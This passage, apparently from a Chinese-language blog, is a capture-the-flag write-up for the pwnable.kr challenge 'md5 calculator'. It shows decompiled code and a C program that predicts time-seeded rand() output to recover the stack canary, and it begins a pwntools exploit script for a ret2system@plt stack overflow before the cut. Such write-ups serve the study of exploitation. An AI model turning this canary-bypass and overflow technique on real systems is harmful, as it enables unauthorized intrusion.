 看看其他[师傅](https://www.cnblogs.com/p4nda/p/7238704.html)是怎么解决`/bin//sh`的问题的，思路就是修改GOT表再次进入`main`函数，劫持`strlen`函数即可。

## md5 calculator

此题目比较明显的问题点是在base64解码过程中造成的栈溢出，但程序开启了Canary和NX，就必须要考虑绕过Canary的[知识]了，一开始根据提示以为是要追逐位爆破Canary，搞了半天不是，转过来发现`my_hash`函数是存在Canary泄露的：

```c
unsigned int my_hash()
{
  signed int i; // [esp+0h] [ebp-38h]
  char v2[4]; // [esp+Ch] [ebp-2Ch]
  int v3; // [esp+10h] [ebp-28h]
  int v4; // [esp+14h] [ebp-24h]
  int v5; // [esp+18h] [ebp-20h]
  int v6; // [esp+1Ch] [ebp-1Ch]
  int v7; // [esp+20h] [ebp-18h]
  int v8; // [esp+24h] [ebp-14h]
  int v9; // [esp+28h] [ebp-10h]
  unsigned int v10; // [esp+2Ch] [ebp-Ch]

  v10 = __readgsdword(0x14u);
  for ( i = 0; i <= 7; ++i )
    *(_DWORD *)&v2[4 * i] = rand();
  return v6 - v8 + v9 + v10 + v4 - v5 + v3 + v7;
}
```

`rand`的种子是`time(NULL)`，那么就不具备随机性了，在程序运行的时可以预测到生成的随机数序列：

```c
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char**argv)
{
    unsigned int i, now;
    scanf("%u", &now);
    srand(now);
    for(i = 0; i < 8; i++)
        printf("%d,", rand());
    printf("\n");
    return 0;
}
```

有了Canary后溢出构造参数`ret2system@plt`即可，利用脚本如下：

```python
import time
import ctypes
import base64
from pwn import *

context.arch = 'i386'
context.log_level = 'debug'

print int(time.time())
#p = process('./hash')
now = int(time.time())+1
p = remote('pwnable.kr', 9002)
print now

t = process('/tmp/get_time')
t.sendline(str(now))
v = t.recvline().split(',')
```
